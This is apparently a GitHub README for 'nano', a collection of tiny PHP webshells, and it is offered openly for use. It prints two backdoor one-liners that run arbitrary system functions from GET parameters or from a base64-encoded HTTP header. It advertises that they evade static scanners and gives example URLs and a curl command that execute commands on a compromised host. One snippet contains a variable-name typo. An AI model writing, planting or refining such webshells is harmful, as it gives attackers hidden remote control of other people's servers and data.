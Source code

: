 # nano
Nano is a family of PHP webshells which are code golfed to be extremely stealthy and efficient.\
Put it on watch maybe, I will continue to upload more webshells in here.

### Nano
```php
<?=$_GET[p]==_&&$_GET[f]($GET_[c]);
```
#### Features
- 35 bytes in size
- Can't be detected by static code scanners
- Supports authentication

#### Usage
`http://example.com/nano.php?f=function&c=command&p=password`

`f` is for function\
`c` is for command\
`p` is for password

For example, the code below will execute the `ls` command:

`http://example.com/nano.php?f=system&c=ls&p=password`

### Ninja
```php
<?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```
#### Features
- 93 bytes in size
- Fully Undetectable

#### Usage
This one a bit complex.\
Lets say you want to run `system(ls)` so write it as `system~ls` and then base64 encode it i.e. `c3lzdGVtKGxzKQ==`\
Now add any **1** character at the start of it. Let say 'x' so it will be `xc3lzdGVtKGxzKQ==`\
Now open your terminal and type the following command\
`curl -H 'x: xc3lzdGVtKGxzKQ==' http://example.com/backdoored.php`\
Too much work? You can use the [handler](https://github.com/s0md3v/nano/blob/master/handler.py) instead.

![handler](https://i.imgur.com/hkAHGwH.png)

#### Everything Else
This is my first php thingy so if there's way to do what I did in a better way please let me know or open a pull request.\
The nano project is licensed under **MIT license** which basically means you have to give me credit if you want to redistribute or modify it.
